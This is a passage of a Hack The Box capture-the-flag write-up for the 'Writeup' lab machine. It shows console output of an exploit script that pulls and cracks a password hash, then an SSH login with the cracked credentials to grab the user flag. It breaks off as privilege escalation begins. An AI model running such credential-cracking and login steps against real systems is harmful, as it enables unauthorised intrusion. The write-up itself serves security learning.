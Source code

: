 ![Exploit](./images/exploit.gif)  
**Figure 5:** exploit

```console
root@endeavour:~/htb/writeup# python ./exploit.py -u http://10.10.10.138/writeup --crack -w rockyou.txt

[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
root@endeavour:~/htb/writeup#
```
That was sweet – it was like a real hackerman movie hack. Where do I use these creds though? There was the http://10.10.10.138/writeup/admin thing but that doesn’t seem to work and neither does the link from the `NetSec Focus Mattermost` link on the `/writeup/` url.

Enumerate dummy, what else can we log into? **SSH**!

```console
root@endeavour:~/htb/writeup# ssh jkr@10.10.10.138
The authenticity of host '10.10.10.138 (10.10.10.138)' can't be established.
ECDSA key fingerprint is SHA256:TEw8ogmentaVUz08dLoHLKmD7USL1uIqidsdoX77oy0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.138' (ECDSA) to the list of known hosts.
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$ ls
user.txt
jkr@writeup:~$ cat user.txt
d4e49*******************19f978
jkr@writeup:~$ 
```
There we have the user flag. 

### Root Flag

Time to PrivEsc. It’s a linux box, so first things first lets get my [favorite recon script](https://github.com/rebootuser/LinEnum) to the box and run it (for the sake of brevity I shortened it to only what is relevent):
